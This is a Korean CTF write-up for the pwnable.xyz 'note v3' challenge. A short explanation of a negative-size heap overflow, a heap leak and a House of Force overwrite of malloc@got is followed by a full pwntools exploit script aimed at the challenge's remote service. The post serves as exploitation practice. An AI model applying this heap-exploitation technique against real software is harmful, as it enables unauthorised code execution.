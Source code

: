 ```yaml
---
title: "[pwnable.xyz]note v3"
date: 2020-2-29
ctf: Pwnable.xyz
layout: post
---
```


한번 코드가 계속 덮이는데 오류떠서 다시 밀고 짜버렸다. 힙을 두개 할당해주는데 처음 청크는 note글자의 사이즈와 title 주소를 써준다.

익스는 쉬웠다. size를 -1로 입력해서 note 글자 사이즈를 0xffffffff으로 만들어줘서 edit에서 0xffffffff만큼 edit할 수 있다. 그래서 topchunk를 덮을 수 있었고 title주소를 bss영역의 note주소로 바꿔서 heap주소를 leak해주고 topchunk 주소를 구할 수 있으므로  `house of force` 를 이용해서 aaw를 만들 수 있다. 나 같은 경우에는 malloc@got를 덮었다. 이게 처음에 힙을 하나 할당해줘서 offset을 잘 맞춰주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('challenge')
# libc = e.libc
p = remote('svc.pwnable.xyz',30041)
#libc = ELF('./alpine-libc-2.24.so')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
notes = 0x00000000006012A0
win = e.symbols['win']

def make(size,title,note,m=True):
	sa('>','1')
	sa(':',str(size))
	sa(':',title)
	if m:
		sa(':',note)

def edit(note,data):
	sa('>','2')
	sa(':',str(note))
	sa(':',data)

def _list():
	sa('>','3')

def quit():
	sa('>','0')

make(-1,'A','A',m=False)
make(-1,'B','B',m=False)
edit(1,p64(0)+p64(0x31)+p64(0x42)+p64(0)*4+p64(0xffffffffffffffff))
edit(0,p64(0)+p64(0x31)+p64(0x41)+p64(0)*4+p64(0x21)+p64(0xffffffff)+p64(notes))
_list()
p.recvuntil('\x0a')
heap_base = u64(p.recv(4).ljust(8,'\x00')) - 0x10
log.info('heap_base : {}'.format(hex(heap_base)))
top_chunk = heap_base + 0xa0
log.info('top_chunk : {}'.format(hex(top_chunk)))

hof = (0x0000000000601290 - top_chunk - 0x10 - 0x8 - 80) & 0xffffffffffffffff
print hex(hof)

make(hof,p64(win),p64(win),m=False)

sa('>','1')
sa(':','1')

p.interactive()
```

<br />

## Reference

https://www.lazenca.net/display/TEC/The+House+of+Force

